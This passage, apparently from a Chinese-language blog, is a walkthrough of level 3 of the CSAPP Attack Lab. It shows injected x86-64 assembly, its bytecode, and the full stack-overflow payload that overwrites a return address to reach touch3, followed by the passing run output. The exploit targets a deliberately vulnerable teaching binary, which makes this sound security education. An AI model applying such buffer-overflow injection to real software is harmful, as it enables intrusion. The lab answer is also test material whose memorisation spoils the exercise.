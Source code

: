 不要忘记最后的字符串结尾是 `\0`,即0x00,所以cookie的字符串形式对应的十六进制如下

```bash
35 39 62 39 39 37 66 61 00
```

接下来我们需要计算这个字符串应该放到哪里,它的地址就应该是 rsp+0x28+0x8 = 0x5561dc78+0x30 = `0x5561dca8`

然后得到 `touch3` 的地址为 `0x4018fa`

所以需要修改之前的注入汇编代码

```x86asm
mov $0x5561dca8,%rdi
push $0x4018fa
ret
```

得到汇编对应的字节码

```txt
3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

整个调用过程如图所示

![20221110231552](https://raw.githubusercontent.com/learner-lu/picbed/master/20221110231552.png)

所以可以得到本关答案

```txt
48 c7 c7 a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

```bash
root@da1811a84ddc:~/csapp/03Attack Lab/target1# ./hex2raw < 3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```
